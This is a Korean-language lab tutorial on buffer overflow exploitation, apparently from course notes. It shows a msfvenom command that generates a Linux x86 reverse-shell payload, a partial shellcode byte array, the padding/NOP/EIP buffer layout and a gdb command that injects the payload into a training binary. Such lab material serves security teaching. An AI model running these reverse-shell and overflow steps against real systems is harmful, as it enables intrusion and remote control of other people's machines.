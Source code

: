 # Shellcode 생성 실습

## 개요

버퍼 오버플로우 익스플로잇에서 최종적으로 시스템 쉘을 얻기 위해서는, CPU가 실행 가능한 **Shellcode**를 삽입해야 합니다.
이때 `msfvenom` 도구를 사용하여 원하는 플랫폼과 아키텍처에 맞는 shellcode를 생성할 수 있습니다.

하지만 shellcode를 만들기 전에 다음 사항들을 반드시 확인해야 합니다.

- 아키텍처 (예: x86, x64)
- 플랫폼 (예: Linux, Windows)
- Bad Characters (문제 발생 가능 바이트)
- 정확한 msfvenom 옵션 구성

---

## msfvenom을 이용한 Shellcode 생성

- 기본 형식:

```bash
msfvenom -p linux/x86/shell_reverse_tcp 
    lhost=<LHOST> lport=<LPORT> --format c 
    --arch x86 --platform linux 
    --bad-chars "<chars>" 
    --out <filename>
```

### 실습 예제

```bash
msfvenom -p linux/x86/shell_reverse_tcp 
    lhost=127.0.0.1 lport=31337 
    --format c 
    --arch x86 --platform linux 
    --bad-chars "\x00\x09\x0a\x20" 
    --out shellcode
```

- 실행 결과:

```
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```

- Found 11 compatible encoders: 현재 선택한 페이로드에 사용할 수 있는 인코더가 11개 있다는 의미
- Attempting to encode payload with 1 iterations of x86/shikata_ga_nai: x86/shikata_ga_nai 인코더를 한 번 사용하여 페이로드를 인코딩하고 있다는 뜻
- x86/shikata_ga_nai chosen with final size 95: 인코딩된 shellcode의 최종 크기가 95 바이트이며, 해당 인코더가 선택되었다는 의미
- Payload size: 95 bytes: 실제 shellcode의 크기가 95바이트임을 의미.
- Final size of c file: 425 bytes: C언어 형식으로 포맷팅한 전체 파일 크기 (문자열 및 배열 구조 포함)
- Saved as: shellcode: 해당 결과물이 shellcode라는 파일명으로 저장되었음을 의미.

---

## shellcode 확인

```bash
cat shellcode
```

예시 출력:

```c
unsigned char buf[] =
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
...
```

* 여러 줄로 나뉜 shellcode를 하나의 문자열로 합쳐야 exploit에 삽입 가능

---

## Exploit Payload 구성

버퍼 총 길이: `1040 bytes`
구성 요소:

| 항목        | 값                                       |
| --------- | --------------------------------------- |
| Padding   | `"\x55"` \* 817 (`1040 - 124 - 95 - 4`) |
| NOP 슬라이드  | `"\x90"` \* 124                         |
| Shellcode | 위에서 생성한 95바이트                           |
| EIP 덮어쓰기  | `"\x66"` \* 4                           |

---

## GDB에서 실행

```bash
(gdb) run $(python -c 'print "\x55" * 817 + "\x90" * 124 + "<SHELLCODE>" + "\x66" * 4')
```

- 예시 출력:

```
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * 817 + "\x90" * 124 + "<SHELLCODE>" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

---

## Shellcode 위치 확인

- NOP 슬라이드 바로 뒤에 shellcode가 정상 삽입되었는지 확인
- EIP가 정확히 덮어써졌는지 확인
- Shellcode가 실제로 실행되어 리버스 연결이 수립되는지 테스트

---

## 요약

- `msfvenom`으로 대상 시스템에 맞는 shellcode 생성
- bad character를 제거하여 안전하게 인코딩
- 버퍼 구성 시 padding, NOP, shellcode, EIP를 정확히 계산
- gdb로 동작 검증 후 실제 익스플로잇 진행

